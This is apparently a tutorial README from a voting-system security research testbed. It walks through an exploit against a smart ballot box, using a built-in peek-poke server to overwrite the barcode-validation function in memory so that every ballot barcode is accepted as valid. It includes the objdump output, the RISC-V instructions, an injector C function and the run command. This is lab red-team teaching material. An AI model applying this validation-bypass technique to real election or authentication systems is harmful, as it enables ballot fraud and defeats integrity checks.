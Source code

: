 This is an example of how to overwrite instructions in the SBB code. The peek-poke server won't let you write directly to SBB instructions, but you can use it to write instructions to the `malware` function that will write to the SBB code. This exploit walks through how to overwrite the function responsible for validating barcodes to always return `BARCODE_VALID`.

# Examine the SBB source code & use objdump

As you might be able to predict by thinking about how the SBB source code works, there is a function that is called to validate whether a given barcode is valid. Let's find this function and see what it does.

Looking at the code that controls the SBB state machine, we see a function called [`run_barcode_detected`](../../../source/sbb/sbb_machine.c#L279). This function calls [`is_barcode_valid`](../../../source/sbb/sbb.c#L93), which is a wrapper over [`crypto_check_barcode_valid`](../../../source/sbb/sbb_crypto.c#L61).

The `crypto_check_barcode_valid` function returns a `barcode_validity` enum, which is defined [here](https://gitlab-ext.galois.com/ssith/voting-system/blob/master/source/sbb/sbb_t.h#L93):

```
typedef enum { // invalid barcode classifications
              BARCODE_VALID,
              BARCODE_INVALID_LENGTH,
              BARCODE_INVALID_ENCODING,
              BARCODE_INVALID_SIGNATURE,
              BARCODE_INVALID_TIMESTAMP,
              BARCODE_INVALID_OTHER,
} barcode_validity;
```

Each member of that enum will be compiled to the index at which they appear; this means that `BARCODE_VALID`, the value you would like to return, will compile to `0`.

Your goal, then, is to overwrite `crypto_check_barcode_valid` to always return 0, which will be interpreted as the `BARCODE_VALID` value.

Let's find the address of that `crypto_check_barcode_valid` starts at:

```
```

Examining the objdump in your favorite text editor, you can find the relevant address:
```
c0026f3c <crypto_check_barcode_valid>:
c0026f3c:       f8010113                addi    sp,sp,-128
c0026f40:       06112e23                sw      ra,124(sp)
c0026f44:       06812c23                sw      s0,120(sp)
c0026f48:       08010413                addi    s0,sp,128
c0026f4c:       f8a42623                sw      a0,-116(s0)
```

Here you'll want `0xc0026f3c`. Note that because we want to overwrite the function to simple return 0 we can step on the part of the function which sets up the stack by moving the stack pointer (sp), but for some more complicated exploits you might want to mind the setup & tear down part of the function body.

To construct this exploit you will need to take two steps: first, get the hex representation of the instructions necessary to return 0, and then get the assembly which writes those instructions to the correct memory location (the beginning of the `crypto_check_barcode_valid` function). This is because the peek-poke server will only let you write instructions to the `malware` function; you cannot write these instructions directly.

# Binary for return 0

First let's get the hex for the RISC-V assembly instructions for the function which simply returns 0. In RISC-V the return value is passed in register `a0`, so the instructions are:

```
mv a0, zero
ret
```

Simple. For more complicated operations you may wish to use a compiler; the [godbolt compiler explorer](https://godbolt.org/z/o15-m-) is a useful online tool. Just be mindful that the highlighting does not always match up exactly to the source code.

Next, let's save this into a file called `return-0.asm` and get the hex for these instructions:

```
[nix-shell]$ riscv32-unknown-elf-as -o return-0.elf return-0.asm
[nix-shell]$ riscv32-unknown-elf-objdump -d return-0.elf
...
Disassembly of section .text:

00000000 <.text>:
   0:	00000513          	li	a0,0
   4:	00008067          	ret
```

Next up: write those hex values (`0x00000513` and `0x00008067`) to the location of the first instruction in `crypto_check_barcode_valid` (`0xc0026f3c`).

# Inject the return 0 instructions

Let's write [another C program](https://godbolt.org/z/sjD4CL) that has the desired effect:

```
void exploit() {
    // write to the address of crypto_check_barcode_valid
    int *x = (int *)0xc0026f3c;
    // this is the "load 0 into a0" instruction
    x[0] = 0x00000513;
    // this is the "ret" instruction
    x[1] = 0x00008067;
}
```

Get the RISC-V 32-bit assembly for this function, and pick out the bits relevant to the function body (everything between the instructions that move the stack pointer "sp" around):

```
lui     a0, 786471
addi    a0, a0, -196
sw      a0, -12(s0)
lw      a0, -12(s0)
addi    a1, zero, 1299
sw      a1, 0(a0)
lw      a0, -12(s0)
lui     a1, 8
addi    a1, a1, 103
sw      a1, 4(a0)
```

Save this into a file called `inject-return-0.asm`. We can use this file as the payload to the `run_exploit.sh` script.

# Run the exploit

Move a directory down and call `run_exploit.sh`:

```
cd ..; ./run_exploit.sh inject-return-0.asm
```

Remember that you need to set the `SBB_IP` and `malware_start_addr` environment variables before running `run_exploit.sh`. For a more in-depth explanation, see the [AES-key-to-display README](../AES-key-to-display/README.md).

# Recap

This example demonstrated how to rewrite the body of a function in the source code with your own sequence of instructions (though this sequence must be no longer than the original function body). To do this, you:

* found the function you wanted to overwrite, and what you wanted to overwrite it with, by inspecting the source code
* found the memory location of the first instruction in the function you wanted to write using objdump
* got the assembly for the instructions you wanted to write
    * In this simple example you put them together manually; you could also use a compiler
* got the hex values of those instructions using objdump
* wrote a C program which wrote those hex values to the memory location of the first instruction in the function you wanted to overwrite
    * If you want to modify control-flow in a more complicated way, you will need to be careful to not step on the stack frame setup & tear-down code at the beginning and end of the function
* got the assembly for this function using a RISC-V 32-bit compiler
* ran `./run_exploit.sh` with that assembly as the payload
